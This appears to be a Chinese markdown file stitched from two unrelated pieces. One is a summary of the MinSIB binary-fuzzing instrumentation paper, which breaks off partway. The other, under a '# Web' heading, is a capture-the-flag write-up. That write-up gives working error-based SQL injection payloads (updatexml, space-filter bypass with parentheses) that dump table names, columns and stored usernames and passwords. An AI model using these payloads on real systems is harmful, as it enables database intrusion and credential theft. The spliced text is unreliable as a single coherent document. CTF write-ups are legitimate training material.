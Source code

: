 # MinSIB: Minimized static instrumentation for fuzzing binaries

## 工作摘要

该论文的主要思路是通过减少插桩点来提升Fuzz的效率

首先提出了三种优化方法来减少要插桩的基本块数量

1. 选择特定的函数
2. 生成最优代码路径覆盖
3. 提取最小化基本块

接着提出了MiniSIB算法进一步减少了插桩点，并且实现了一种稳定、可靠、高效的二进制重写方法。

## 论文思路

### 选择特定的函数

首先使用Asm2vec模型提取函数的特征向量，对检测项目中的函数进行特征匹配。同时为了针对大型函数特征数据库做出了优化，将所有函数按大小排序，然后使用二分法加块匹配速度。

![1](images/1.png)

提取函数的特征向量后首先会过滤掉标准库的函数，然后就是选取感兴趣的函数。

为此本文以一个或多个函数为起点函数将与之有关联的函数进行标记作为感兴趣的函数。函数之间的调用或被调用的关系即为函数之间的关联，所以，如果函数之间存在调用关系，则可以将函数视为一个组。通过将每个函数$f$记录为$FCG$中的一个节点，可以将调用关系视为$FCG$中的一条有向边。因此，$FCG$可以定义为：$FCG =（V,\vec{E}）$，顶点集$V$包含所有函数，边集$\vec{E}$指示它们的调用关系。

调用关系可以分为三种，分别为祖先、子孙、兄弟关系。本研究在原始值的基础上确定了各种亲属关系的加权系数。对于指定的起点函数，可以以较低的成本计算其他函数的亲属系数，并且可以通过选择不同的阈值来容易地控制感兴趣的函数的数量。

![2](images/2.png)

### 生成最优代码覆盖路径

该生成算法由两个阶段组成：提取BBoI（兴趣基本块）和通过CFG生成OptCPC（最优代码覆盖路径）

#### 提取BBoI

以为Fuzz主要针对内存漏洞，因此该方法根据指令类型和指令的地址类型构建了指令与内存相关性的评估表，以此来得到指令的内存相关分数，并根据基本块所有指令的分数和阈值$\tau$来决定是否标记为BBoI，计算基本块内存相关分数的计算公式如下：


$$
\lambda=\sum_{k=1}^{|b|}Score(in_k)
$$


即基本块的最终得分是所有指令的总和。

函数$f$的兴趣基本块被定义为：


$$
B_f^*=\lbrace b|b∈B_f\wedge\lambda_b\geq\tau\rbrace
$$


$B_f$表示函数f的基本块的集合，并且$\tau$表示兴趣的阈值。函数的其余基本块，称为非兴趣的基本块，定义为：


$$
B_f^-=B_f-B_f^*
$$


#### 通过CFG生成OptCPC

执行路径$p$包含一组按顺序排列的基本块。如下图所示，函数$f_a$具有两个执行路径： $p_1 = \lbrace{b_1 → b_2 → b_4 }\rbrace$  和  $p_1 = \lbrace{b_1 → b_3 → b_4 }\rbrace$ 。 

![3](images/3.png)

但是当CFG中存在循环时执行路径的数量在理论上就是无限的。CPC是对于一个函数执行路径的扩展，就是为了解决循环路径而提出的，它将路径定义为一组离散的点，CPC被定义为


$$
\mathcal{P}=\lbrace b|b∈p\rbrace
$$


如下图所示，循环路径可以定义为一个CPC：$\mathcal{P}_b=\lbrace{b_1,b_2,b_3,b_4}\rbrace$。

![4](images/4.png)

所有可能的CPC构成的CPC集合定义为：


$$
\mathbb{P}_f=\lbrace\mathcal{P}_p|p∈f\rbrace
$$


生成CPC集合的算法如下图所示

![5](images/5.png)

感兴趣的基本块的集合 $B_f^*$ 的CPC即OptCPCs被定义为：


$$
\mathbb{P}_{opt}=\lbrace\mathcal{P}|\mathcal{P}∈\mathbb{P}_f\wedge\mathcal{P}\subseteq B_f^*\rbrace
$$


# Web

![6](images/6.png)

我们打开之后发现和之前做的差不多直接在密码的位置进行注入![7](images/7.png)

然后用BurpSuite检查下过滤，发现很多都被过滤了，然后挨个实验发现是过滤了空格，那么我们就可以用()进行绕过

![8](images/8.png)

我们尝试注入后发现，该网页会回显报错消息，所以我们改用报错注入

![9](images/9.png)

用**1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#**来获取数据库名

![10](images/10.png)

用**1'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))#**获取表名

![11](images/11.png)

再用**1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#**获取列名

![12](images/12.png)

最后用**1'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))#**爆出一半flag

改一下变成**1'or(updatexml(1,concat(0x7e,(select(right(password,35))from(H4rDsq1)),0x7e),1))#**即可获得完整flag
